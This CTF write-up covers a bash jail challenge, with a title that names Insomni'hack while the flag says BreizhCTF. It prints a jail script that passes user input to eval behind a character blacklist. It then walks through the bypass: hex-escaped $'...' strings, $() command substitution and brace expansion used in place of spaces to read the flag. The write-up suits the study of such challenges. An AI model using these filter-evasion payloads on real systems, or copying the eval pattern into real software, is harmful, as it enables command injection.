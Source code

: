 #Insomni'hack CTF 2016 : PCAPBleeding

**Category:** JAIL |
**Points:** 300 |
**Solves:** 7% |
**Description:** 

> BASHJAIL



---

##Code and Write-up

Here is the code :

```bash
#!/bin/bash
. /home/game/.omg

_start(){
    echo "Hi. U got $TIME second(s) to do this. Don't fap"
    sleep "$TIME"
    _quit
}

_quit(){
    echo -e '\n\033[0;31mA breton is faster than u. Bye\033[0m'
    kill -9 "$PID" &>/dev/null
    exit
}

_trapped(){
    kill "$sPID"
    local TIME="$((RANDOM%1337))"
    echo -e "Poor guyz. U wanna leave this GAME ?\nStay with me for "$TIME"s <3.\nTake a drink? For milk, ask @saxx. For beer, ask @kaluche"
    sleep "$TIME"
}


_is_hacker_or_breton(){
        [[ $1 == *[02abcdefghijklmnopqrstuvwyzABDEFGHIJKLMNOPQRSTUVWXYZ';''&'' ''"''*''`''?''.''<''>']* ]] && return 0
        return 1
}

PID="$$"
echo "PIIIID : $PID"
trap _trapped SIGINT SIGTERM
TIME=5 ; _start & sPID="$!" ; sleep 0.01

while true; do
    echo -ne "\033[32mEnter a cmd > \033[0m"
    read cmd
    _is_hacker_or_breton "$cmd" && {
            echo -e '\033[0;31mDont hack me !\033[0m'
            exit 1
        } || {
            out="echo Your command is: $cmd"
            eval "$out"
    }
done
```

Here, the .omg file : [.omg](https://github.com/notfound-404/BREIZHCTF2K16/)

The first thing to do, was to ^c to kill the timeout, and to get a small sleep.
You can see it's RANDOM.

```
Poor guyz. U wanna leave this GAME ?
Stay with me for 1182s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 881s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 906s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 600s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 8s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
```

Well, 8s is quiet small.
Now, you can easily find unfiltered chars, by testing them manually.
The following wasn't filtered :

```
Enter a cmd > $'x13456789{}()\\
Enter a cmd >
```

Knowing that, and knowing a little bash, you can try a `ls` :

```
Enter a cmd > $'\\x6C\\x73'
Your command is: ls
```

Ok, the command is not filtered but not executed ...
Well, try to executed is using `$(cmd)`

```
Enter a cmd > $($'\\x6C\\x73')
Your command is: flag jail.sh
```

Good, the command was executed.
You can see 2 files, `flag` and `jail.sh`

Let's try to `cat flag` :
```
Enter a cmd > $($'\\x63\\x61\\x74\\x20\\x66\\x6C\\x61\\x67')
Dont hack me !
```

Oh, right. \\x20 contains filtered chars.
If you were stuck here, you just had to Google : `bash commands without spaces`<br>
(https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)

An example :

```bash
jonojono@apollo ~ $ {echo,hello,world}
hello world
```

We know that `{}` are not filtered, let's try this :
```
Enter a cmd > $({$'\\x63\\x61\\x74',$'\\x66\\x6C\\x61\\x67'})
Your command is: BRZHCTF{...}
```


<br>
Pwned.<br>
__Flag__ : BRZHCTF{Yes_I_allow_u_to_hate_me...I_am_Notfound_and_I_love_b4sh.I_also_love_long_flag,saxxounette_and_kalouchi_and_the_others_trollz}

Enjoy,<br>
\- [Notfound](https://www.notfound.ovh)

